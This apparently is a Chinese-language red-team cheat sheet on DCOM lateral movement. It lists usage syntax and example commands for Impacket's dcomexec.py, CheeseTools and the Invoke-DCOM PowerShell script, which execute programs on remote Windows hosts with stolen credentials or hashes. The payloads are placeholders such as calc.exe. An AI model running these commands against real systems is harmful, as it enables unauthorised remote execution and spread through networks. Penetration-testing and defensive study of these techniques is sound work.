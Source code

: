 	DCOM 是 COM（组件对象模型）的扩展，它允许应用程序在远程计算机上实例化和访问 COM 对象的属性和方法。
#### Impacket 
	DCOMExec.py
	>dcomexec.py [-h] [-share SHARE] [-nooutput] [-ts] [-debug] [-codec CODEC] [-object [{ShellWindows,ShellBrowserWindow,MMC20}]] [-hashes LMHASH:NTHASH] [-no-pass] [-k] [-aesKey hex key] [-dc-ip ip address] [-A authfile] [-keytab KEYTAB] target [command ...]
	>dcomexec.py -share C$ -object MMC20 '<DOMAIN>/<USERNAME>:<PASSWORD>@<MACHINE_CIBLE>'
	>dcomexec.py -share C$ -object MMC20 '<DOMAIN>/<USERNAME>:<PASSWORD>@<MACHINE_CIBLE>' 'ipconfig'
	>
	>python3 dcomexec.py -object MMC20 -silentcommand -debug $DOMAIN/$USER:$PASSWORD\$@$HOST 'notepad.exe'
	-object MMC20 是指定我们希望实例化 MMC20.Application 对象
	-silentcommand 无回显执行
#### CheeseTools
  	https://github.com/klezVirus/CheeseTools
	https://klezvirus.github.io/RedTeaming/LateralMovement/LateralMovementDCOM/
	-t, --target=VALUE         目标机器
	-b, --binary=VALUE         二进制文件: powershell.exe
	-a, --args=VALUE           Arguments: -enc <blah>
	-m, --method=VALUE         Methods: MMC20Application, ShellWindows,
	                            ShellBrowserWindow, ExcelDDE, VisioAddonEx,
	                            OutlookShellEx, ExcelXLL, VisioExecLine, 
	                            OfficeMacro
	-r, --reg, --registry      Enable registry manipulation
	-h, -?, --help             Show Help

	当前方法: MMC20.Application, ShellWindows, ShellBrowserWindow, ExcelDDE, VisioAddonEx, OutlookShellEx, ExcelXLL, VisioExecLine, OfficeMacro
#### Invoke-DCOM
  	https://raw.githubusercontent.com/rvrsh3ll/Misc-Powershell-Scripts/master/Invoke-DCOM.ps1
	>Import-Module .\Invoke-DCOM.ps1
	>Invoke-DCOM -ComputerName '10.10.10.10' -Method MMC20.Application -Command "calc.exe"
	>Invoke-DCOM -ComputerName '10.10.10.10' -Method ExcelDDE -Command "calc.exe"
	>Invoke-DCOM -ComputerName '10.10.10.10' -Method ServiceStart "MyService"
	>Invoke-DCOM -ComputerName '10.10.10.10' -Method ShellBrowserWindow -Command "calc.exe"
	>Invoke-DCOM -ComputerName '10.10.10.10' -Method ShellWindows -Command "calc.exe"